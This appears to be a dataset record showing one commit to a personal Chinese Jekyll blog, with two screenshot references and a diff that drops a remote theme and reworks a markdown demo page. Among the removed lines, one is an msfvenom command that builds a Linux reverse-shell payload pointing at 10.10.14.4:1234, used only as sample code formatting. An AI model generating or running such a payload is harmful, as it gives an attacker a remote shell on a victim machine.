

Before and after one commit to symphonyh/symphonyh.github.io, a Jekyll site: the page built from documents.md, in a window 1280 px wide and 1400 px high, scrolled down 1139 px. Shown: the whole window at 94% size, without its empty margins (0-978 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
20230106-Remove remote theme

````diff
--- a/Gemfile
+++ b/Gemfile
@@ -4,4 +4,3 @@ gem "jekyll"
 gem 'jekyll-feed'
 gem 'jekyll-theme-tao'
 gem "webrick", "~> 1.7"
-gem "jekyll-remote-theme"
--- a/_config.yml
+++ b/_config.yml
@@ -1,7 +1,7 @@
 # Configurations
 title: Minerva
 tagline: The owl of Minerva flies at dusk
-description: 在黄昏起飞的猫头鹰,可以看见整个白天所发生的一切,可以追寻其他鸟儿在白天自由翱翔的足迹。- G.W.F.Hegel
+description: 在黄昏起飞的猫头鹰,可以看见整个白天所发生的一切,可以追寻其他鸟儿在白天自由翱翔的足迹。- Hegel
 
 author:
   name: cloudhan
@@ -10,11 +10,9 @@ author:
 
 plugins:
   - jekyll-paginate
-  - jekyll-remote-theme
 
 paginate: 5
 
-remote_theme: vfvong/jekyll-theme-tao
 
 categories_path: /categories/
 tags_path: /tags/
--- a/documents.md
+++ b/documents.md
@@ -9,12 +9,12 @@ permalink: /Example/
   <img src="https://img.shields.io/badge/featured%20on-jekyllthemes-red.svg" height="20" alt="jekyll themes shield" loading="lazy">
 </a>
 
-# 文章目录
+## 文章目录
 
  * a markdown unordered list which will be replaced with the toc, `*` 号前面和后面需要有个空格。
   {:toc}
 
-# 文本
+## 文本
 
 <p style="color: var(--oc-blue-5)">这是一个段落，我要把它设置为蓝色，只需在前面的标签上嵌入style属性即可，style用于内联css。</p>
 
@@ -36,6 +36,19 @@ abc <sup> 123
 
 abc <sub> 123
 
+**换行** 行尾加 `2空格`+`回车`
+
+空行分割，形成*段落
+
+
+
+`\`用反斜杠可以反引用下面特殊字符
+
+```
+\`*-{}[]()#+-·!
+```
+
+
 <p style="
     color:white;
     border-radius: 15px 50px;
@@ -44,22 +57,28 @@ abc <sub> 123
 
 ">这是一个段落，只需在前面的标签上嵌入style属性即可，style用于内联css。</p>
 
-# 块注释
+## 块注释
 
 > 注释块的示例
 
-<blockquote>
-很长的注释内容
-</blockquote>
+> Dorothy followed her through many of the beautiful rooms in her castle.
+>
+>> The Witch bade her clean the pots and kettles and sweep the floor and keep the fire fed with wood.
 
-# 脚注的示例
+> **The quarterly results look great!**
+>
+> - Revenue was off the chart.
+> - Profits were higher than ever.
+>
+>  *Everything* is going according to **plan**.
 
-when set to true, an ordered[^fn-sample_footnote] list will be outputted instead of an unordered lis
 
-## 百字令 废园有感
+## 脚注和列表
+
+### 百字令 废园有感
 
 - 片红飞减，甚东风不语，只催漂泊。
-- 石上胭脂花上露，谁与画眉商略。
+- 石上胭脂花上露[^fn-sample_footnote]，谁与画眉商略。
 - 碧甃瓶沉，紫钱钗掩，雀踏金铃索。
 - 韶华如梦，为寻好梦担阁。
 - 又是金粉空梁，定巢燕子，一口香泥落。
@@ -89,7 +108,7 @@ when set to true, an ordered[^fn-sample_footnote] list will be outputted instead
 待将幽忆寄新词，
 分付芭蕉风定月斜时。
 
-# 代码
+## 代码
 
 use `~~~`
 
@@ -108,17 +127,30 @@ use ` 反引号
 
 `pust "hello word!"`
 
-use ``` 反引号
+## 表格
 
-```shell
-msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.4 LPORT=1234 -f elf > tar
+```
+| 左对齐 | 右对齐 | 居中对齐 |
+| :-----| ----: | :----: |
+| 单元格 | 单元格 | 单元格 |
+| 单元格 | 单元格 | 单元格 |
 ```
 
-# 加载图片
+| 左对齐 | 右对齐 | 居中对齐 |
+| :-----| ----: | :----: |
+| 单元格 | 单元格 | 单元格 |
+| 单元格 | 单元格 | 单元格 |
+
+> `-:` 设置内容和标题栏居右对齐。
+> `:-` 设置内容和标题栏居左对齐。
+> `:-:` 设置内容和标题栏居中对齐。
+
+
+## 图片
 
 ![示例图片](/assets/ruby.webp)
 
-# 公式
+## 公式
 
 需要把变量 `math: true`
 
````
Also changed, not shown: other parts of documents.md (+4 -1 lines), Gemfile.lock.
